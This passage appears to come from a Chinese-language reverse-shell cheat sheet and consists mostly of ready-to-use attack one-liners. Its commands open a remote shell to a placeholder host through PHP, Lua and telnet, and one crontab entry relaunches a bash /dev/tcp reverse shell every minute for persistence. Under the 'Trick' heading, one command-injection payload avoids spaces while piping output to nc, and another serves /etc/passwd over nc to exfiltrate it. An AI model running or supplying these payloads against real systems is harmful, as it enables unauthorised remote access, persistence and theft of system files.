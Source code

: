 

`php`方式

```bash
php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```



`lua`方式

```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('ip','port');os.execute('/bin/sh -i <&3 >&3 2>&3');"
#需要lua socket支持，且lua5.2+不支持luasocket
```



`crontab`方式

`crontab -e`编辑当前用户的任务，或者是写到计划任务目录，一般是 `/var/spool/cron/` 目录，`ubuntu`是` / var/spool/cron/crontabs`。文件名为用户名`root`等。下面命令含义是每一分钟执行一次反弹`shell`命令。

```
SHELL=/bin/bash
* * * * * /bin/bash -i >& /dev/tcp/ip/port 0>&1
```



`telnet`方式

```bash
mknod backpipe p && telnet ip port 0<backpipe | /bin/bash 1>backpipe
```



`msf`方式有很多种，这里就不再提了。



####	Trick

无空格：

```bash
ping -c 4 8.8.8.8;hostname|{nc,ip,port}
```



使用`nc`将文件重定向：

靶机上

```bash
nc -lvp port < /etc/passwd
```

本机直接`nc ip port`得到文件内容



使用`http`协议，通过`curl`：
